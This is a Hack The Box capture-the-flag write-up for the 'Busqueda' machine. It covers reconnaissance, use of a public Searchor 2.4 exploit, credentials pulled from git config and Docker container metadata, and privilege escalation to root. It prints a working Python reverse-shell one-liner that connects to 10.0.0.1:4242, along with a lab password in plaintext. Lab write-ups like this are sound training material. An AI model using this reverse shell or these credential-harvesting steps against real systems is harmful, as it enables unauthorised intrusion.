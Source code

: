 # Busqueda
#### Busqueda Hack The box 
Hello Hackers, I'm [0xDigimon](https://www.linkedin.com/in/abdelmawla-elamrosy/)
I started nmap scanner (i didn't use any arg to make scan faster) <br> ``` namp -Pn 10.10.11.208 ```<br> 
output.<br>
<img src="https://github.com/0xDigimon/CyLert-Internship/blob/main/HTB-Machines/Busqueda/media/01.png?raw=true"><br>
now discover website <br> <img src="https://github.com/0xDigimon/CyLert-Internship/blob/main/HTB-Machines/Busqueda/media/02.png?raw=true"><br>
i started burp to intercept the request<br> <img src="https://github.com/0xDigimon/CyLert-Internship/blob/main/HTB-Machines/Busqueda/media/03.png?raw=true"><br>
Fuzzing website using dirsearch <br> ```dirsearch -u "http://searcher.htb/" ``` <br> <img src="https://github.com/0xDigimon/CyLert-Internship/blob/main/HTB-Machines/Busqueda/media/04.png?raw=true"><br>
also i tryed searching about <strong>sqli</strong> in input lables <br> ```sqlmap -r req.txt -p <pram,pram> --dbs```<br>  <img src="https://github.com/0xDigimon/CyLert-Internship/blob/main/HTB-Machines/Busqueda/media/05.png?raw=true"><br>
but I didn't got anything ):<br>
wait... what is this in the bottom i smell vulnerability here<br> <img src="https://github.com/0xDigimon/CyLert-Internship/blob/main/HTB-Machines/Busqueda/media/06.png?raw=true"><br>
i search on ```searchor 2.4 exploit``` and i found POC for this vulnerability <br><img src="https://github.com/0xDigimon/CyLert-Internship/blob/main/HTB-Machines/Busqueda/media/07.png?raw=true"><br>
now i gained access on this machine <br> <img src="https://github.com/0xDigimon/CyLert-Internship/blob/main/HTB-Machines/Busqueda/media/08.png?raw=true"><br>
<strong>BOOOOOM</strong> i got user flag <img src="https://github.com/0xDigimon/CyLert-Internship/blob/main/HTB-Machines/Busqueda/media/09.png?raw=true"><br>
now i want to escalate my privillege <br>
discover all files in ```/var/www``` i found .git file ```git log``` <br>i got some info as <strong>administrator</strong> and new subdomain <strong>gitea.searcher.htb</strong><br><img src="https://github.com/0xDigimon/CyLert-Internship/blob/main/HTB-Machines/Busqueda/media/10.png?raw=true"><br> 
```git config -l ``` <br>i got credential to login <br><img src="https://github.com/0xDigimon/CyLert-Internship/blob/main/HTB-Machines/Busqueda/media/11.png?raw=true"><br><img src="https://github.com/0xDigimon/CyLert-Internship/blob/main/HTB-Machines/Busqueda/media/12.png?raw=true"><br>
i didn't got on any intersted info. so i try connect using ssh on cody and svc and administrator i gained access again from svc user but now i have password.<br><img src="https://github.com/0xDigimon/CyLert-Internship/blob/main/HTB-Machines/Busqueda/media/13.png?raw=true"><br>so i did some enumerations to do privilege escalation like ```sudo -l ``` i got on script called ```system-checkup.py```and after run it i found some intersting command and by using this script i found two containners <br> <img src="https://github.com/0xDigimon/CyLert-Internship/blob/main/HTB-Machines/Busqueda/media/14.png?raw=true"><br>
after some search about docker-inspector i got some intersting command in this [website](https://docs.docker.com/config/formatting/)<br>
and used Hint section to show all content in these containers as a json file ```--format='{{json .}}'``` after this i used [json pretty print](https://jsonformatter.org/json-pretty-print) <br><img src="https://github.com/0xDigimon/CyLert-Internship/blob/main/HTB-Machines/Busqueda/media/15.png?raw=true"><br><img src="https://github.com/0xDigimon/CyLert-Internship/blob/main/HTB-Machines/Busqueda/media/16.png?raw=true"><br><img src="https://github.com/0xDigimon/CyLert-Internship/blob/main/HTB-Machines/Busqueda/media/17.png?raw=true"><br><img src="https://github.com/0xDigimon/CyLert-Internship/blob/main/HTB-Machines/Busqueda/media/18.png?raw=true"><br>do you notice any thing!, yes i got passwords in database <br>
so i trying to gain access on database using mysql<br>```mysql -h gitea.searcher.htb -u root -p```<br><img src="https://github.com/0xDigimon/CyLert-Internship/blob/main/HTB-Machines/Busqueda/media/19.png?raw=true"><br>
but i failed ): so i went to website and tried usernames and passwords.<br><img src="https://github.com/0xDigimon/CyLert-Internship/blob/main/HTB-Machines/Busqueda/media/20.png?raw=true"><br><img src="https://github.com/0xDigimon/CyLert-Internship/blob/main/HTB-Machines/Busqueda/media/21.png?raw=true"><br>
and i used administrator and yuiu1hoiu4i5ho1uh <br>
now i have access to show codes <br>
in system-checkup.py script i fount that i can run full-checkup script if we are in the same directory,<br><img src="https://github.com/0xDigimon/CyLert-Internship/blob/main/HTB-Machines/Busqueda/media/22.png?raw=true"><br> so i create bash reverse shell but it not working so i tried to create python reverse shell in bash file using [this repo](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md)<br>```import socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",4242));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/sh")```<br>
and make it executable file ```chmod +x full-checkup.sh```and start listener and run ```system-checkup.py full-checkup``` <br><strong>BOOOOOOOM (: </strong> i have a <strong>root</strong> shell <br><img src="https://github.com/0xDigimon/CyLert-Internship/blob/main/HTB-Machines/Busqueda/media/23.png?raw=true"><br>
<hr>

#### thanks for reading 

